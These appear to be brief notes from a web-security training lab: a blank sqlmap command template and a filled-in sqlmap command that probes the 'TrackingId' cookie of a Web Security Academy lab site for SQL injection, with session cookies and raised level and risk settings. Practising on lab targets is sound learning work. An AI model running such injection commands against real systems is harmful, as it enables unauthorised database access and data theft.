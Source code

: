 
sqlmap -u "" --cookie='' -p "" --param-filter="COOKIE" --skip="" --level=2

sqlmap -u "https://0ac9001d040b365280b73a5800360089.web-security-academy.net/" --cookie='TrackingId=Si2Ti3UCJa5NxYak; session=Y07mwFAoA10BqLLtPd21JrZV5MkHnFub' -p "TrackingId" --param-filter="COOKIE" --skip="session" --level=3 --risk=2